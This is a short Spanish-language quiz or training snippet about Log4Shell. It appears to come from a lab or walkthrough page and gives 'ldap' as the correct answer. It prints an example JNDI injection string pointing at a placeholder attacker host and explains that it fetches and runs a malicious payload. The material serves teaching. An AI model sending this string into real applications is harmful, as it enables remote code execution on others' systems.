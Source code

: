 ![](../img/28a8ab4d5ead428ff0f0076aa18d0973.png)


📥 **Ejemplo de inyección Log4Shell**:

```
${jndi:ldap://attacker.com/a}
```

💡 Aquí, `ldap` es el protocolo que se usa para recuperar y ejecutar el payload malicioso.

🚩 Esta es la técnica clave que hace posible la ejecución remota de código.

✅ **Respuesta correcta**: `ldap`

![](../img/67af76fddf1fc0d95f88fcfa8f38822f.png)

---
